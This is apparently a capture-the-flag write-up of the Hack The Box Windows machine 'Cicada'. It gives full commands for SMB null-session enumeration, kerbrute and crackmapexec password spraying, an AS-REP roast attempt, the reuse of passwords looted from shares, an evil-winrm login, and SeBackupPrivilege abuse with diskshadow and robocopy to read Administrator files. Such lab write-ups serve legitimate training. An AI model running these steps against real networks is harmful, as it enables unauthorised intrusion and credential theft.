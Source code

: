 ![Cicada](https://labs.hackthebox.com/storage/avatars/79616a32a057e5e672dadb51bb96dd04.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [theblxckcicada](https://app.hackthebox.com/users/796798)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---









- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.

  ```python
  nmap -p- --open -vvv --min-rate 5000 -Pn -sS 10.10.11.35 -oG scan
  /opt/extractports scan
  nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,51656 -sCV 10.10.11.35 -oN ports
  ```
    
  ![image](https://github.com/user-attachments/assets/8e4f563f-7618-4130-badc-621df9b3e08e)

    
- I found the domain `cicada.htb` and add it to the file in the `/etc/hosts` file
 
- By using a null session I manage to enumerate the users of the system. Valid if they really exist with kerbrute.

  ```python
  impacket-lookupsid cicada@10.10.10.35 -no-pass
  ```

  ![image](https://github.com/user-attachments/assets/8523b9b0-9014-463c-ba28-c2aeeed37d36)

    
- Validate the existence of users in the AD witch [kerbrute](https://github.com/ropnop/kerbrute)
    
    ```python
    ./kerbrute_linux_386 userenum --dc 10.10.11.35 -d cicada.htb -t 100 /home/rufo/users
    ```
    
    ![image](https://github.com/user-attachments/assets/7ebcc3a2-4cba-4d66-b251-687653ab8ace)
    
- I try with a brute force attack to get the passwords of the users but I get nothing.
    
    ```python
    crackmapexec smb 10.10.11.35 -u emily.oscars -p /usr/share/wordlist/rockyou.txt -k
    ./kerbrute_linux_386 bruteuser --dc 10.10.11.35 -d cicada.htb -t 100 -v /usr/share/wordlist/rockyou.txt Guest
    ```
    
    ![image](https://github.com/user-attachments/assets/6eb01c01-98a7-488d-b7f9-1f26fa38183a)
    
- Having a list of valid users we can make an `ASREPRoast Attack` (without having passwords)
    
    - If the user does not require kerberos preauthentication (if Dont require preauth is set for the user) it will give us a TGT, we can try to break that hash and get the password in clear text.
    - But I see that no user has this option set.
    
    ```python
    impacket-GetNPUsers -no-pass -userfile /home/rufo/users cicada.htb/
    ```
    
    ![image](https://github.com/user-attachments/assets/4c0cfee3-a7df-4984-936e-3caea791e9dd)
    
- As I see port 53 open, I try to `enumerate server names`, `mail server names` and even perform a `zone transfer attack` but I get nothing relevant
    
    ```python
    dig @10.10.11.35 cicada.htb ns
    dig @10.10.11.35 cicada.htb mx
    dig @10.10.11.35 cicada.htb axfr
    ```
    
    ![image](https://github.com/user-attachments/assets/4128dec9-1770-4352-a1fd-f854b8972d33)
    
- Making use of a null session I list the resources shared by `smb` and I find a folder that catches my attention, `HR`
    
    ```python
    enum4linux -a -u "guest" -p '' 10.10.11.35
    smbmap -H 10.10.11.35 -u 'guest' -r HR
    ```
    
	![image](https://github.com/user-attachments/assets/2b85c80f-1748-4c5d-b006-31a5ef8ddafe)

	![image](https://github.com/user-attachments/assets/e83f8303-a179-4d81-ae78-aa5456e2edf1)

- I find a file containing a possible password. Valid if it belongs to one of the users previously found.
    
    ```python
    smbmap -H 10.10.11.35 -u 'guest' --download 'HR/Notice from HR.txt'
    ```
    
    ![image](https://github.com/user-attachments/assets/f4c802ac-f296-4f93-9013-b18f8570fb87)
    
    ```python
    crackmapexec smb 10.10.11.35 -u ./users2 -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
    ```
    
    ![image](https://github.com/user-attachments/assets/5fd89c5c-02a7-48d1-bce5-e5d30818f96e)
    
- Following the found file I try to log in as the user michael.wrightson and the default password to try to change his password but I don't have permissions.
    
    ```python
    smbpasswd -r cicada.htb -U michael.wrightson
    net rpc password "michael.wrightson" -U "cicada.htb"/"michael.wrightson"%'Cicada$M6Corpb*@Lp#nZp!8' -S 10.10.11.35
    ```
    
    ![image](https://github.com/user-attachments/assets/f5ab2d72-6493-4625-92fc-104e606f046e)
    
    ![image](https://github.com/user-attachments/assets/790461f4-96d2-4fc0-b601-84c9d5684a0e)
    
- Having the credentials of the user `michael.wrightson`, I list resources shared by `smb` for this user
    
    ```python
    crackmapexec smb 10.10.10.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
    ```
    
    ![image](https://github.com/user-attachments/assets/47b0ba4a-6098-4d0c-8623-a0743a4d88bc)
    
- After entering the different folders and files I get nothing relevant. I use `enum4linux` again with the credentials of the found user and find a possible password in the description of a user and see that the user `emily.oscars` belongs to the `Remote Management Users` group.
    
    ```python
    enum4linux -a -u "michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
    ```
    
    ![image](https://github.com/user-attachments/assets/26b10341-aba3-480c-9aad-1cb0c1197edc)
    
    ![image](https://github.com/user-attachments/assets/ba69adba-cd17-4424-ad28-7dc19bd5eab0)
    
- I list shared resources, find a file and download it to see its content.
    
    ```python
    crackmapexec smb 10.10.11.35 -u david.orelious -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
    smbclient -U 'david.orelious' //10.10.11.35/DEV
    ```
    
    ![image](https://github.com/user-attachments/assets/0f63b8ee-7781-4b6d-b164-b67467944f15)

    ![image](https://github.com/user-attachments/assets/82453d0f-7108-421c-aca4-10e619e31d5c)
    
- I find the password of the user `emily.oscars`, I validate it with `crackmapexec` and it is correct. As we have seen before that this user belongs to the `Remote Management Users` group, we can connect with `evil-winrm` and we can read the first flag.
    
    ```python
    evil-wirm -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' -i 10.10.11.35
    ```
    
    ![image](https://github.com/user-attachments/assets/06b2df90-5558-4b08-9f97-5064bb906962)
    
    ![image](https://github.com/user-attachments/assets/b84c146b-2240-41c4-8153-ff92b10d7259)
    
- Using `neo4j`, `bloodhound` and `bloodhound-python` I can extract information from the system to see a way to escalate privileges.
    
- While I list the privileges I have and I see that I have the `SeBackupPrivilege` permission.
    
    ```python
    whoami /priv
    ```
    
    ![image](https://github.com/user-attachments/assets/1f665db4-e5f8-4bca-a5c1-753faffa9a52)
    
    - When searching for information about this [privilege](https://d4t4s3c.medium.com/sebackupprivilege-windows-privilege-escalation-c7a05e3f1568) I see that I can access all files on the system regardless of permissions.
        
    - Thanks to this we could read both the system and the sam and try to get the hash of the users but as the connection against the computer was restarted every few minutes, I did not have time to download the files to my local
        
    - Because of this, I decide to read directly the root.txt file
    
- I create a file test.txt with the following content and using [diskshadow](https://pentestlab.blog/tag/diskshadow/) I run the script that creates a new volume 'v' with the content of 'c'.
    
    ```python
    set context persistent nowriters
    add volume c: alias rufo
    create
    expose %rufo% v:
    ```
    
    ```python
    diskshadow.exe /s c:\\Temp\\test.txt
    ```
    
    ![image](https://github.com/user-attachments/assets/284ae142-52ff-4713-b64a-1512fddc7c8f)
    
- Now using robocopy, since copy does not let me, I make a copy of any file called root.txt that is in the path v:\UsersAdministrator\Desktop and create it in the current directory, for that I indicate the '.'. Thanks to this I already have the content of the root.txt file
    
    ```python
    cd 	c:\\Temp
    robocopy /b v:\\Users\\Administrator\\Desktop\\ . root.txt
    ```
    
    ![image](https://github.com/user-attachments/assets/1c7a9cf8-9f93-44ef-b6bd-9204fe836d0a)
